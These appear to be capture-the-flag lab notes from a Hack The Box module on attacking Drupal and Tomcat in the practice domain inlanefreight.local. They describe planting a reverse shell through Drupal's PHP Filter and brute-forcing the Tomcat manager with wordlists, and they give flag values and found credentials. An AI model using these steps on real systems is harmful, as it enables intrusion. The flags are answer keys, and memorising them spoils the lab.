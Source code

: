```
# Go to http://drupal.inlanefreight.local/admin/modules
# Find PHP Filter and enable it
# Next, we could go to Content --> Add content and create a `Basic page`.
# We will paste a pentesmonkey reverse shell and will have a listener ready in our kali machine
# After getting a shell, print the flag:
cat /var/www/drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt

```

Resutls: DrUp@l_drUp@l_3veryWh3Re!



## Servlet Containers/Software Development


vHosts needed for these questions:

- `app-dev.inlanefreight.local`
- `web01.inlanefreight.local`

**What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?**

```
curl -s http://web01.inlanefreight.local:8180/docs/ | grep Tomcat 
```

Results: 10.0.10


**What role does the admin user have in the configuration example?**

See the example provided by HTB. 

Results: admin-gui


vHosts needed for these questions:

- `web01.inlanefreight.local`

**Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?**

Run the script [provided in the notes](tomcat-pentesting.md) for brute force user:password:

```
 python tomforce.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt  
```

Results: tomcat

**What is the password?**

Results: root


**Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt**
